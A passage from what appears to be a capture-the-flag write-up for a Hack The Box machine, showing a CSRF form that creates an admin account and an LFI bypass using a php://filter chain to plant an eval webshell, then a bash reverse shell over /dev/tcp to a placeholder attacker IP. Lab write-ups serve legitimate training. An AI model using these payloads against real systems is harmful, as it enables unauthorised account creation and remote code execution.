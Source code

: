 
## 🎬 Act 5 – Notice Me Senpai (Lecturer → Admin)

Lecturers can post **Notices**, which admins dutifully read.

We notice `/admin/createuser.php` has weak CSRF handling. Tokens never expire.  
So let’s make our own **forever admin**:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrfForm" action="http://portal.guardian.htb/admin/createuser.php" method="POST">
  <input type="hidden" name="username" value="attacker">
  <input type="hidden" name="password" value="P@ssw0rd123">
  <input type="hidden" name="full_name" value="Attacker User">
  <input type="hidden" name="email" value="attacker@example.com">
  <input type="hidden" name="user_role" value="admin">
  <input type="hidden" name="csrf_token" value="VALID_TOKEN_HERE">
</form>
<script>document.getElementById('csrfForm').submit();</script>
</body>
</html>
```

Open locally → account created.  
Now we’re a **legit admin** forever. 🏆

---

## 🎬 Act 6 – The Report Card Trick (LFI → Shell)

The Reports page only allows 4 whitelisted files, but we bypass it using **php://filter**.

Generate PHP payload:

```bash
python3 php_filter_chain_generator.py --chain '<?php eval($_POST["a"]);?>'
```

Craft URL:

```plaintext
http://portal.guardian.htb/admin/reports.php?report=php://filter/CHAIN,system.php
```

Start listener:

```bash
nc -lvnp 4444
```

Trigger reverse shell:

```bash
curl -X POST   -d 'a=system("bash -i >& /dev/tcp/YOUR_IP/4444 0>&1");'   "http://portal.guardian.htb/admin/reports.php?report=php://filter/CHAIN,system.php"
```
